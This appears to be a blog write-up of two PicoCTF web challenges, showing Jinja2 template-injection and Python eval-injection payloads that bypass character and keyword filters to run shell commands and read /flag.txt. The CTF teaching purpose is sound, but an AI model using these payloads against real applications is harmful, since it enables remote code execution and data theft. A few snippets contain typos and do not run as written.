+++
date = '2025-08-09T17:07:19+08:00'
draft = false
title = 'PicoCTF Web Medium Writeup'
+++

# SSTI2

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website

http://shape-facility.picoctf.net:63568/

Website is vulnerable to SSTI


Based on the server response header and templating evaluation, most probably a Python templating engine, Jinja2


A typical Jinja SSTI payload is `{{ ().class.base.subclasses() }}`

The app filters certain characters like `_`, we can bypass the filter by replacing `_` with `\x5f`. To make our payload more subversive, we can also change the way we get attribute of an object from `foo.bar` to `foo|attr("bar")`.

```python
{{()|attr('\x5f\x5fclass\x5f\x5f')}}

|attr('\x5f\x5f\x5f\x5f')

# list the subclasses avaliable
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fmro\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')(1)|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
```

We can manually find the offset for os class or we can access the os class through the built python builtin functions. The example below utilise the request class to access python builtin functions.

```python
{{request.application.__globals__.
__builtins__.__import__('os').popen('id').read()}}
```

We can access the subclasses of each special methods in function as such `__globals__.__builtins__`. Since we are bypassing the filter, we can convert our payload from `__globals__.__builtins__` to `attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')`

The final payload

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

SSTI to get RCE


Locate the flag and read it




# 3v@l

ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?



Server response suggests that it is a python application


Payload `code=7*7` will show 49 in the HTML response. There seems to be some sort of evaluation of expressions. A possibility maybe through templating engine or functions like `eval()`.



`code=__import__('os').system('id')`



Since the user input is being evaluated, we can use chr(111)+chr(115) instead of the string `os`. Make sure to URL encode the `+` to `%2b`. You can get the unicode integer of a character using `chr('o')` -\> 111


List directory, again we are faced with forbidden keyword `ls`.



```python
>>> ord('l')
108
>>> ord('s')
115
>>> ord(' ')
32
>>> ord('-')
45
>>> ord('a')
97
```

```python
code=__import('os').popen('ls -la').read()

code=__import__(chr(111)%2bchr(115)).popen(chr(108)%2bchr(115)%2bchr(32)%2bchr(45)%2bchr(108)%2bchr(97)).read()
```



The flag is in /flag.txt

```python
code=__import('os').popen('ls -la /').read()

code=__import__(chr(111)%2bchr(115)).popen(chr(108)%2bchr(115)%2bchr(32)%2bchr(45)%2bchr(108)%2bchr(97)%2bchr(32)%2bchr(47)).read()
```



Read the flag

```python
code=__import('os').popen('cat /flag.txt').read()

99 97 116 32 47 102 108 97 103 46 116 120 116

code=__import__(chr(111)%2bchr(115)).popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%2bchr(46)%2bchr(116)%2bchr(120)%2bchr(116)).read()
```



Another way to build the string via chr is using join method and lambda function

```python
''.join([chr(x) for x in [47, 102, 108, 97, 103, 46, 116, 120, 116]]).read()
```
